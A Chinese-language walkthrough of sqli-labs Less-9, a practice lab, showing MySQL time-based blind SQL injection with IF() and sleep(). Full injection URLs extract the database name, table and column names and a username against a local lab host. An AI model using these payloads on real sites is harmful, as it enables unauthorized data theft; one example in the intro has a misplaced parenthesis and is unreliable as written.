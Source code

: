 ```yaml
---
title: Less - 09
date: 2023-03-13T14:58:00Z
lastmod: 2023-03-14T12:40:59Z
---
```


# Less - 09

---

# 一、补充知识

---

时间注入是利用sleep()或benchmark()等函数让MySQL的执行时间变长。时间盲注多与IF(expr1,expr2,expr3)结合使用，此if语句含义是：如果expr1是TRUE，则IF()的返回值为expr2；否则返回值则为expr3。  
例：  
if (length(database())>1,1,sleep(5))，这句语句的意思是查看当前数据库的长度是否大于1，大于1则查询1，小于1MySQL查询休眠5秒  
if (substr(database()),1,1='s',1,sleep(5))，这句语句的意思是查看当前数据库的第一个字母是否为’s’，为’s’则查询1，不为’s’MySQL查询休眠5秒

---

# 二、通关教程

---

## 1、判断闭合

---

先传入id=1

​![image](assets/image-20230313195145-906jjno.png)​

加上一个单引号

​![image](assets/image-20230313195227-mi5rnoq.png)​

将单引号修改为双引号

​![image](assets/image-20230313195422-adtnk49.png)​

​![image](assets/image-20230313195549-g26u4sz.png)​

注意回显的时间，返回时间长的就是闭合成功

---

## 2、判断当前数据库长度

---

```html
http://192.168.225.132/sqli-labs/Less-9/?id=1'+and+if(length(database())=8,1,sleep(5))--+
```

​![image](assets/image-20230313195929-18h0emk.png)查看当前数据库的第一个字母​

---

## 3、查看当前数据库的第一个字母

---

```html
http://192.168.225.132/sqli-labs/Less-9/?id=1' and if(substr(database(),1,1)='a',1,sleep(5))--+
```

​![image](assets/image-20230314122323-wdqqerb.png)​

---

## 4、查看security库下的第一张表的第一个字母

---

```html
http://192.168.225.132/sqli-labs/Less-9/?id=1' and if(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1)='s',1,sleep(5))--+
```

​![image](assets/image-20230314122945-j1m2ucc.png)​

---

## 5、查看users表下的第一个字段的第一个字母

---

```html
http://192.168.225.132/sqli-labs/Less-9/?id=1' and if(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1)='s',1,sleep(5))--+
```

​![image](assets/image-20230314123729-o3epjqk.png)​

---

## 6、查username字段的第一个值得第一个字母

---

```html
http://192.168.225.132/sqli-labs/Less-9/?id=1' and if(substr((select username from security.users limit 0,1),1,1)='s',1,sleep(5))--+
```

​![image](assets/image-20230314124042-dbc0fgx.png)​
